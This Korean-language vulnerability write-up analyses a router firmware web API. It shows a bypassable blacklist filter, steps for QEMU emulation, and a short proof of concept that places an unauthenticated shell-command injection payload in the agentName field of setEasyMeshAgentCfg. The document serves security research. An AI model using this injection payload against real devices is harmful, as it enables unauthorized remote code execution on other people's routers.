 **검사 대상**: `;`, `&`, `|`, `` ` ``, `$`, `\n`, `.sh`, `iptables`, `telnetd`

**취약점**: 
- 블랙리스트 방식의 근본적 취약성 - 일부 위험 문자만 검출하므로 우회 가능
- 문맥 무시 - 입력값이 파일에 저장된 뒤 어떻게 사용되는지 고려하지 않음
- 조합적 우회 가능 - `&&`, `||`, `$()` 등 복합 구문이나 인코딩으로 우회 가능

**중요**: 이 함수는 `sub_42C0D8`에서 호출되지 않으며, 다른 API 핸들러에서만 사용됨. 따라서 `setEasyMeshAgentCfg`는 **어떠한 입력 검증도 수행하지 않음**.

---

## 3. 에뮬레이션 (QEMU User-mode)

### 3.1 qemu-aarch64-static 주입

```bash
sudo cp $(which qemu-aarch64-static) ./usr/bin/
```

### 3.2 mount 설정 및 chroot로 진입

```bash
sudo mount --bind /dev ./dev
sudo mount --bind /proc ./proc
sudo mount --bind /sys ./sys

sudo rm ./var
sudo mkdir -p ./var/run

sudo chroot . ./usr/bin/qemu-aarch64-static /bin/sh
```

### 3.3 웹 서버 실행

```bash
# chroot 내부에서
ubusd &
/usr/sbin/shttpd -root /web
```

> **참고**: 실제 라우터 환경과 유사하게 구성하려면 추가 설정 필요 (uci, network 등)

---

## 4. Exploit (연구 재현용)

### 4.1 PoC

해당 PoC는 **인증 없이** `setEasyMeshAgentCfg` API의 `agentName` 파라미터에 셸 명령을 주입하여 원격 코드 실행(RCE)을 유발한다.

| 필드 | 값 | 설명 |
|---|---|---|
| topicurl | "setEasyMeshAgentCfg" | 호출할 취약 API 함수명 |
| agentName | "iamhacker'; id > /abc.txt; #" | 취약 파라미터. 셸 메타문자를 이용한 명령 주입 |
| opmode | "0" | 필수 파라미터 |
| meshStart | "1" | 필수 파라미터 |
